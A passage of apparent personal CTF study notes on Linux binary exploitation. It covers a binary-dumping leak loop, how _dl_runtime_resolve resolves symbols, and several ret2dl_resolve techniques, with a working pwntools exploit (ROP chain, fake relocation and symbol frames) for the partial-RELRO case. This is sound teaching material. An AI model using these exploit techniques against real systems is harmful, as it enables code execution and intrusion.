        if check:
            file.append(check[:-1])
            r.close() 
            
        else:
            r.close()
    except:                                             
        print(sys.exc_info()[0])
        r.close()


file = []
offset = 0x7f                                           

for i in range(0x100):                      
    offset = leak_binary_write(i*offset,0x400000)
    print(f'{hex(i*offset)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```

</div>
</details>


# ret2dl_resolve
https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf
<details>
    <summary>how _dl_runtime_resolve works </summary>
        <div>

		
# how _dl_runtime_resolve works

```
_dl_runtime_resolve(elf_info , index )
				|
				|
  ------------------------------
  |
  |	 ___________________          ___________________          ___________________
  |	| Relocation table  |        |   Symbol table    |        |   String table    |
  |	|_____rel.plt_______|        |_____.dynsym_______|        |______.dynstr______|
  |	|       ...         |        |       ...         |        |       ...         |
  |	|___________________|        |___________________|        |___________________|
  >>>>>>|      r_offset     |        |      st_name      |        |      read\0       |
	|___________________|        |___________________|        |___________________|
	|      r_info       | ____   |      st_info      |        |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|       ...         |     |  |        ...        |    |>>>|      puts\0       |
	|___________________|     |  |___________________|    |   |___________________|
	|      r_offset     |     |  |      st_name      | ___|   |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|      r_info       |     >>>|      st_info      |        |                   |
	|___________________|        |___________________|        |___________________|

```
		
so first we enter the call to puts.

since this is the first call to puts it is not binded we need to setup the arguments for _dl_runtime_resolve(elf_info , index )

pushes the index in this case 0x0       \
```
	0x401030                  endbr64        
 →   0x401034                  push   0x0       
     0x401039                  bnd    jmp 0x401020      
```
pushes the elf_info 0x404008:	0x00007ffff7ffe190       \
```
→   0x401020                  push   QWORD PTR [rip+0x2fe2]        # 0x404008       
     0x401026                  bnd    jmp QWORD PTR [rip+0x2fe3]        # 0x404010       
     0x40102d                  nop    DWORD PTR [rax]       
```
than we look into the rel.plt        

we pushed 0 so we look at the first entry of the Relocation table and find the r_info holding 100000007h for now we only care about the 1 which is the offset for the Symbol table       
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Relocation_table.png">

in the Symbole table we look at offset 1 and find the st_name which holds the offset 10h
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Symbole_table.png">
		
in the String table we look at ofset 10h and find the string puts
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/String_Table.png">


</div>
</details>




<details>
    <summary>ret2dl_resolve method 1. (PIE is off // RELRO off)</summary>
        <div>
		
# ret2dl_resolve method 1. (PIE is off // RELRO off)

Prerequisites
1. IP controll
2. ability to write to memory #we use read() #if we cant find a pop rdx we could ret2csu before 
		#or use mov [reg],reg and corespoding pop gadgets to write our fake frame but this will increase the payload size!!

in the .dynamic section there is a pointer to the String table .dynstr if RELRO is off this section is actually writeable we can change the pointer to.
if we cange d_val to a section in the .bss we can basically write our own String table there and simply could replace puts with execve.


```
 ___________________      ___________________ 
|   Symbole table   |    |    String table   | <<<______
|______.dynsym______|    |______.dynstr______|          |
|        ...        |    |        ...        |          |
|___________________|    |___________________|          |
|       st_name     |_   |       read\0      |          |
|___________________| |  |___________________|          |
|       st_info     | |>>|       puts\0      |          |
|___________________| .  |___________________|          |
        ...............                .................|_______
	.	 ___________________   .  ___________________   |
	.	|   Writeable area  |<<. |      .dynamic     |  |
	.	|________.bss_______|    |___________________|  |
	.	|        ...        |    |        ...        |  |
	.	|___________________|    |___________________|  |
	.	|       read\0      |    |  d_tag: DT_STRTAB |  |
	.	|___________________|    |___________________|  |
	.....>>>|       execve\0    |    |       d_val       |__|
		|___________________|    |___________________|

```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/nRELROdynamicSection.png">		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynstr.png">
		
fake .dynstr in .bss (d_val points to the first `\x00`)		
```
payload = b'\x00'
payload += b'libc.so.6\x00'		
payload += b'gets\x00'
payload += b'execve\x00'		#puts was here before
payload += b'__libc_start_main\x00'
payload += b'GLIBC_2.2.5\x00'
payload += b'__gmon_start__\x00'
```

</div>
</details>


<details>
    <summary>ret2dl_resolve method 2. (PIE is off// partial RELRO)</summary>
        <div>

# ret2dl_resolve method 2. (PIE is off// partial RELRO)


Prerequisites
1. IP controll
2. ability to write to memory

```
readelf -S resolve_partial_relro
		
  [ 6] .dynsym           DYNSYM           00000000004003c8
  [ 7] .dynstr           STRTAB           0000000000400470
  [11] .rela.plt         RELA             0000000000400550
  [22] .dynamic          DYNAMIC          0000000000403e20
  [24] .got.plt          PROGBITS         0000000000404000
  [26] .bss              NOBITS           0000000000404040

```

we can create a fake .rel.plt entry in the .bss and pass a huge index to _dl_runtime_resolve(elf_info,index)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/_relplt.png">

we set 0x277 as index.   \
than runtime_resolve would look for the .rel.plt entry @ 404078 which is in .bss we have controll over and can place a fake .rel.plt struct here that contains the fake r_info.   

```
addr_fake_frame - addr_of_.rel.plt = byte_offset / 0x18 = index_offset 
0x404078 - 00400550 = 0x3B28/0x18 = 0x277   
```

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/_dynsym.png">
we set our fake r_info to 0x288 and place our fake .dynsym struct that contains the fake st_name entry directly under our fake .rel.plt struct   /
		
```
(addr_fake_struct + len(fake_.rel.plt)) - addr_of_.dynsym = byte_offset / 0x18 = fake_r_info 
(0x404078+0x10) - 004003c8     				#+0x10 cause our fake_.rel.plt is 16 bytes
0x404088 - 004003c8 = 0x3cc0/0x18 = 0x288   
```	

here we set the st_name offset to 0x3c30.    \
starting @ 0x400470 to our fake string @ 0x4040a0    
```
(addr_fake_struct + len(fake_.rel.plt) + len(fake_dynsym)) - addr_of_.dynstr = st_name 
(0x404078+0x10+0x18) - 0x400470    			#+0x10 cause our fake_.rel.plt is 16 bytes +0x18 cause fake_dynsym is 24 bytes
0x4040a0 - 0x400470 = 0x3c30    
```
and as last step we set what libc function we want to resolve into our fake .dynstr entry @ 0x4040a0




This aproach will not work allways:
If the Dynamic loader checks the boundaries.
If symbol versioning and huge pages are enabled. 
		

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Method2.png">
		
```
#!/usr/bin/env python3
from pwn import *
import ctypes

fname = f'resolve_partial_relro'
ip = '0.0.0.0'
port = 1337

#set target binary and context
elf = context.binary = ELF(f'./{fname}')

#set libc for Pwntools
#libc = ELF('libc.so.6')



gdbscript="""
b *main
b *0x00000000004011c8
b *0x7ffff7fe7bb0
b *0x7ffff7fe00b0
b *0x7ffff7fe010b
b *0x7ffff7fe017f
"""

mode = 'attach'

if mode == 'attach':
    r = process(f'{fname}',aslr=False)

    #attach(f'{fname}',gdbscript=gdbscript)
    #set follow-fork-mode child
elif mode == 'debug':
    r = gdb.debug(f'./{fname}',aslr=False,gdbscript=gdbscript)
elif mode == 'remote':
    r = remote(ip,port)

rb = lambda x :r.recvb(x)
rl = lambda : r.recvline()
ru = lambda x :r.recvuntil(x)
s = lambda x :r.send(x)
sl = lambda x : r.sendline(x)
sla = lambda x,y : r.sendlineafter(x,y)
inter = lambda : r.interactive()

# this will import the libc rand() function that we can use it in ur python script

#libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')


def pwn():


    pop_rdi     = 0x401263
    pop_rsi_r15 = 0x401261
    pop_rdx     = 0x4011d1
    read = elf.plt['read']
    dl_resolve = 0x401020

    dynsym = 0x4003c8
    dynstr = 0x400470
    rel_plt = 0x400550



    fake_frame_addr = 0x404078
    print(f'fake frame addr = {hex(fake_frame_addr)}')
    print(f'fake r_info @ {hex(fake_frame_addr + 0xc)}')


    fake_r_info = int(((fake_frame_addr + 0x18) - dynsym) / 0x18)
    print(f'fake r_info = {hex(fake_r_info)}')
    print(f'fake st_name @ {hex(fake_r_info*0x18 + dynsym)}') #addr of fake_st_name

    #r_info is the offset from .dynsym to our fake .dynsym entry in steps of 0x18
    #0x288*0x18 = 0x3cc0    0x4003c8 + 0x3xcc0 = 0x404088


    fake_st_name = int((fake_frame_addr + 0x10 + 0x18) - dynstr)
    print(f'fake st_name = {hex(fake_st_name)}')
    print(f'fake string entry @ {hex(fake_st_name + dynstr)}')   #addr of fake_string_puts

    #st_name is the offset form .dynstr to our fake string puts
    #0x3c30 + 0x400470 = 0x4040a0




    #fake .rel.plt 0x10
    fake_frame = b''                                                                        
    fake_frame += p64(0x404018)        #0x404078 - 0x404080               #GOT addr where to resolve to                       
    fake_frame += p32(0x7)             #0x404080 - 0x404084               #needet to pass a internal check                    
    fake_frame += p32(fake_r_info)     #0x404084 - 0x404088               #fake_r_info                                             
                                                                          #r_addet we dont need these and it would destory the offsets when we add 8 bytes here
    #fake .dynsym 0x18
    fake_frame += p32(fake_st_name)    #0x404088 - 0x40408c               #st_name                                            
    fake_frame += b'\x00'              #0x40408c - 0x40408d               #st_info                           
    fake_frame += b'\x00'              #0x40408d - 0x40408e               #st_other                                           
    fake_frame += b'\x00\x00'          #0x40408e - 0x404090               #st_shndx                                           
    fake_frame += p64(0x00)            #0x404090 - 0x404098               #st_value                                           
    fake_frame += p64(0x00)            #0x404098 - 0x4040a0               #st_size

    #fake .dynstr entry
    fake_frame += b'puts\x00'          #0x4040a0                        #fake dynstr entry 




    len_fake_frame = len(fake_frame)

    dl_resolve_index = int((fake_frame_addr - rel_plt) / 24)
    print(f'fake Index = {hex(dl_resolve_index)}')

    payload = b''
    payload += b'A'*24              #pad
		
    #setup the read() to write our fake_frame
    payload += p64(pop_rdi)
    payload += p64(0x00)            #read from stdin
    payload += p64(pop_rsi_r15)
    payload += p64(fake_frame_addr)     #.bss addr
    payload += p64(0x00)            #junk r15
    payload += p64(pop_rdx)
    payload += p64(len_fake_frame)
    payload += p64(read)
    
    #setup registers for the resolved function in this case puts		
    payload += p64(pop_rdi)
    payload += p64(0x400000)            #argument for the function we resolve
	
    #setup arguments for the __dl_runtime_resolve() and call it.
    payload += p64(dl_resolve)
    payload += p64(dl_resolve_index)
    #for debugging
    payload += p64(0x1111111111111111)  #we hang here but we executed puts and '\x7fELF' sould be printed

    s(payload)
    pause(5)
    s(fake_frame)
    
    inter()


if __name__ == '__main__':
    pwn()		
```

</div>
</details>


	
	
<details>
    <summary>ret2dl_resolve method 3. (PIE is off//partial RELRO)</summary>
        <div>
in prgoress		
# ret2dl_resolve method 3. (PIE is off//partial RELRO)

Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(reg) + offset) = value`

```
mov rax, [rax]				#get the pointed addr into rax
mov [rax + rdx], rdi		#add rdx to pointed addr and mov rdi into it
```

elf_info points to a link_map struct    \
the link_map holds a pointer to the .dynstr table    \
the elf_info is allways available at a reserved GOT entry GOT[1]

this is like the first attack but we need a specific gadget to exploit this sucesfully.

we know the pointer to the link_map but we actually have to rewrite an entry in the link map.    \


```
gef➤  got

GOT protection: Partial RelRO | GOT functions: 5
 
[0x601018] puts@GLIBC_2.2.5  →  0x400566
[0x601020] setbuf@GLIBC_2.2.5  →  0x7ffff7e4ac50
[0x601028] read@GLIBC_2.2.5  →  0x400586
[0x601030] __libc_start_main@GLIBC_2.2.5  →  0x7ffff7de2fc0
[0x601038] strcmp@GLIBC_2.2.5  →  0x4005a6

```

```
gef➤  tel 0x601000
0x0000000000601000│+0x0000: 0x0000000000600e28  →  0x0000000000000001
0x0000000000601008│+0x0008: 0x00007ffff7ffe190  →  0x0000000000000000
0x0000000000601010│+0x0010: 0x00007ffff7fe7bb0  →   endbr64 
0x0000000000601018│+0x0018: 0x0000000000400566  →  0xffe0e90000000068 ("h"?)
0x0000000000601020│+0x0020: 0x00007ffff7e4ac50  →  <setbuf+0> endbr64 
0x0000000000601028│+0x0028: 0x0000000000400586  →  <read@plt+6> push 0x2
0x0000000000601030│+0x0030: 0x00007ffff7de2fc0  →  <__libc_start_main+0> endbr64 
0x0000000000601038│+0x0038: 0x00000000004005a6  →  <strcmp@plt+6> push 0x4
0x0000000000601040│+0x0040: 0x0000000000000000
0x0000000000601048│+0x0048: 0x0000000000000000

```
```
gef➤  tel 0x00007ffff7ffe190
0x00007ffff7ffe190│+0x0000: 0x0000000000000000
0x00007ffff7ffe198│+0x0008: 0x00007ffff7ffe730  →  0x0000000000000000
0x00007ffff7ffe1a0│+0x0010: 0x0000000000600e28  →  0x0000000000000001					#pointer to .dynamic
0x00007ffff7ffe1a8│+0x0018: 0x00007ffff7ffe740  →  0x00007ffff7fcd000  →  0x00010102464c457f
0x00007ffff7ffe1b0│+0x0020: 0x0000000000000000
0x00007ffff7ffe1b8│+0x0028: 0x00007ffff7ffe190  →  0x0000000000000000
0x00007ffff7ffe1c0│+0x0030: 0x0000000000000000
0x00007ffff7ffe1c8│+0x0038: 0x00007ffff7ffe718  →  0x00007ffff7ffe730  →  0x0000000000000000
0x00007ffff7ffe1d0│+0x0040: 0x0000000000000000
0x00007ffff7ffe1d8│+0x0048: 0x0000000000600e28  →  0x0000000000000001

```
		
.dynamic struct look like this
```
gef➤  tel 20 0x0000000000600e28
0x0000000000600e28│+0x0000: 0x0000000000000001
0x0000000000600e30│+0x0008: 0x0000000000000001
0x0000000000600e38│+0x0010: 0x000000000000000c
0x0000000000600e40│+0x0018: 0x0000000000400528  →  <_init+0> sub rsp, 0x8
0x0000000000600e48│+0x0020: 0x000000000000000d
0x0000000000600e50│+0x0028: 0x00000000004007d4  →  <_fini+0> sub rsp, 0x8
0x0000000000600e58│+0x0030: 0x0000000000000019
0x0000000000600e60│+0x0038: 0x0000000000600e10  →  0x0000000000400690  →  <frame_dummy+0> mov edi, 0x600e20
0x0000000000600e68│+0x0040: 0x000000000000001b
0x0000000000600e70│+0x0048: 0x0000000000000008
0x0000000000600e78│+0x0050: 0x000000000000001a
0x0000000000600e80│+0x0058: 0x0000000000600e18  →  0x0000000000400670  →  <__do_global_dtors_aux+0> 
0x0000000000600e88│+0x0060: 0x000000000000001c
0x0000000000600e90│+0x0068: 0x0000000000000008
0x0000000000600e98│+0x0070: 0x000000006ffffef5
0x0000000000600ea0│+0x0078: 0x0000000000400298  →   add eax, DWORD PTR [rax]
0x0000000000600ea8│+0x0080: 0x0000000000000005
0x0000000000600eb0│+0x0088: 0x00000000004003b8  →   add BYTE PTR [rcx+rbp*2+0x62], ch				#pointer to .dynstr
0x0000000000600eb8│+0x0090: 0x0000000000000006
0x0000000000600ec0│+0x0098: 0x00000000004002c8  →   add BYTE PTR [rax], al

```
		
we overwrite the l_info[DT_STRTAB] in the struct starting @ 0x00007ffff7ffe190 at offset +0x0010 and change it to an bss addr.
and at the .bss addr we create a fake .dynamic struct

at .bss +0x0088 we store our pointer to the fake .dynstr struct we create 



``` 
         ___________________       ___________________       ___________________
	|        GOT        |  |>>|      .dynamic     |  |->|      .dynstr      |
	|______.plt.got_____|  |  |___________________|  |  |___________________|
	|        got[0]     |  |  |        ...        |  |  |       read\0      |  
	|___________________|  |  |___________________|  |  |___________________|  
	|        got[1]     |  |  |  d_tag: DT_STRTAB |  |  |       puts\0      | 
 |------|___________________|  |  |___________________|  |  |___________________|
 |	|        got[2]     |  |  |       d_val       |--| 
 |	|___________________|  |  |___________________|
 |                             |
 |	 ___________________   |   ___________________  
 |	|                   |  |.>|   Writable area   |  
 |	|___________________|  |. |________.bss_______|  
 |	|        ...        |  |. | d_tag: DT_STRTAB  |  
 |	|___________________|  |. |___________________|  
 |	|  l_info[DT_HASH]  |  |. |        d_val      |--|  
 |	|___________________|  |. |___________________|  |
 |---->>| l_info[DT_STRTAB] |--|. |         ...       |  |
	|___________________|     |___________________| <
	| l_info[DT_SYMTAB] |     |      read\0       |
	|___________________|     |___________________|
				  |      execve\0     |
				  |___________________|
```
</div>
</details>


		
	
<details>
    <summary>ret2dl_resolve method 4. (PIE is off//full RELRO)</summary>
        <div>
		
# ret2dl_resolve method 4. (PIE is off//full RELRO)
		
in this methode we use a debugging feature DT_DEBUG in the .dynamic section that points to a debugger data struct. (it is used by e.g. gdb to track loading of new librarys)

this DT_DEBUG data struct also holds a pointer to the link_map

but we still have to find the dl_runtime_resolve() cause the reserved GOT entry for it is gone as well as the elf_info link_map reserver GOT

the link_map is part of a linked list.
If we go to the next entry in the liniked list 


Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(rax) + offset) = value`


```
mov rax, [rax]
mov [rax + offset],value
```

4. 

```
mov pointer, [pointer]
mov reg, [pointer + offset]
mov [destination], reg
```
5.
```
mov reg, [source]
mov [esp + offset], reg
```

```
     ___________________                     ___________________         ___________________ 
    |   Dynamic section |                   |       [HEAP]      |       |        GOT        |  
    |______.dynamic_____|                   |___________________|     |>|______.plt.got_____|    
    |        ...        |                   |         ...       |     | |       GOT[0]      |   
    |___________________|                   |___________________|     | |___________________|   
    |  d_tag: DT_DEBUG  |                   |      r_version    |     | |       GOT[1]      |      
    |___________________|                   |___________________|     | |___________________|      
    |       d_val       | ---------------->>|        r_map      |     | |       GOT[2]      |---_dl_runtime_resolve
    |___________________|                   |___________________|--|  | |___________________|    
    |        ...        |                   |         ...       |  |  | |       GOT[3]      | 
    |___________________|                   |___________________|  |  | |___________________|   
    |  d_tag: DT_STRTAB |           |-------|l_info [DT_STRTAB] |  |  | |        ...        |  
    |___________________|           | ......|___________________|  |  | |___________________|  
 ---|       d_val       |           | .     |         ...       |  |  |    
 |  |___________________|           | .     |___________________|  |  |   
 |                                  | .   --|       l_next      |<-|  |
 |                                  | .   | |___________________|     |
 |                                  | .   | |         ...       |     |
 |                                  | .   | |___________________|     |
 |                                  | .   |>| l_info[DT_PLTGOT] |-----|
 |                                  | .     |___________________|
 |   ___________________            | .
 ->>|    String table   |<<---------- .
    |______.dynstr______|              .
    |        ...        |               ................
    |___________________|        ___________________   .
    |       read\0      |       |    Writable area  |  .
    |___________________|       |________.bss_______|<<.
    |       puts\0      |<--    |        ...        |
    |___________________|  |    |___________________|
    |        ...        |  |    |       read\0      |
    |___________________|  |    |___________________|
                           |..>>|       execve\0    |
     ___________________   |.   |___________________| 
    |   Symbol table    |  |.  
    |______.dynsym______|  |.    
    |        ...        |  |.   
    |___________________|  |.   
    |      st_name      |--|.    
    |___________________| 
    |      st_info      |    
    |___________________|   
    |        ...        |    
    |___________________| 
```
IN PROGESS
		
		
		
</div>
</details>

# SROP
in progress
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
